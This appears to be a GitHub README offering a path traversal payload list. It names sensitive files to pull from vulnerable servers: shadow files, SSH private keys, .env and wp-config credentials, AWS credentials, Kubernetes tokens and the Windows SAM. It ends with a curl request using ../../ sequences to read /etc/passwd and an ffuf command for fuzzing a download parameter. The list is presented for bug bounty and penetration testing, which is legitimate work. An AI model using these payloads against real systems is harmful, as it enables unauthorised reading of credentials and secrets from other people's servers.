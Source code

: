 # Directory Traversal Payload List

This repository contains a curated list of **directory traversal / path traversal** payloads.  
Use this for **educational purposes, bug bounty, or penetration testing** only.  

--- 

## 🖥 System Files
- /etc/passwd
- /etc/shadow
- /etc/group
- /etc/hosts
- /etc/hostname
- /etc/issue
- /etc/os-release

## 🔑 Credentials
- /root/.ssh/id_rsa
- /home/<user>/.ssh/id_rsa
- /etc/mysql/my.cnf
- /var/www/html/config.php
- /var/www/html/wp-config.php
- /var/www/html/.env

## 🌐 Web Configs
- /etc/apache2/apache2.conf
- /etc/nginx/nginx.conf
- /etc/phpmyadmin/config.inc.php

## 📝 Logs
- /var/log/auth.log
- /var/log/apache2/error.log
- /var/log/nginx/access.log
- /var/log/syslog

## 🛠 Process
- /proc/self/environ
- /proc/self/cmdline

## ☁️ Cloud / Containers
- /root/.aws/credentials
- /var/run/secrets/kubernetes.io/serviceaccount/token
- /var/lib/docker/

## 🖥 Windows
- C:\Windows\System32\drivers\etc\hosts
- C:\Windows\System32\config\SAM
- C:\Users\<user>\.ssh\id_rsa
- C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

---

## 🔧 Usage Example
```bash
# Linux
curl "http://target.com/download?file=../../../../etc/passwd"

# Fuzz with ffuf
ffuf -u http://target.com/download?file=FUZZ -w traversal.txt

